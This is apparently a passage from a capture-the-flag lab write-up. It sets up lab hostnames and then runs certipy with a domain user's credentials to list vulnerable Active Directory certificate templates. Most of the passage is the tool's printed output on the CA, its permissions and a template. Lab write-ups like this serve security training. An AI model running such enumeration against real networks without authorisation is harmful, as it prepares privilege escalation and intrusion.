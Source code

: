 <h3>/etc/hosts</h3>

```bash
TargetIP    ledger.thm labyrinth.thm.local thm.local LABYRINTH thm-LABYRINTH-CA
```

<br>

<h3>certipy</h3>

```bash
:~/Ledger# python3 -m venv venv
:~/Ledger# source venv/bin/activate
(venv) :~/Ledger# 
...
```


<br>

<h3>certipy</h3>

```bash
(venv) :~/Ledger#  certipy find -u 'SUSANNA_MCKNIGHT@thm.local' -p 'Cxxxxxxxxx23!' -target labyrinth.thm.local -stdout -vulnerable
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 14 enabled certificate templates
[*] Trying to get CA configuration for 'thm-LABYRINTH-CA' via CSRA
[!] Got error while trying to get CA configuration for 'thm-LABYRINTH-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'thm-LABYRINTH-CA' via RRP
[*] Got CA configuration for 'thm-LABYRINTH-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : thm-LABYRINTH-CA
    DNS Name                            : labyrinth.thm.local
    Certificate Subject                 : CN=thm-LABYRINTH-CA, DC=thm, DC=local
    Certificate Serial Number           : 5225C02DD750EDB340E984BC75F09029
    Certificate Validity Start          : 2023-05-12 07:26:00+00:00
    Certificate Validity End            : 2028-05-12 07:35:59+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : THM.LOCAL\Administrators
      Access Rights
        ManageCertificates              : THM.LOCAL\Administrators
                                          THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        ManageCa                        : THM.LOCAL\Administrators
                                          THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Enroll                          : THM.LOCAL\Authenticated Users
Certificate Templates
  0
    Template Name                       : ServerAuth
    Display Name                        : ServerAuth
    Certificate Authorities             : thm-LABYRINTH-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
```
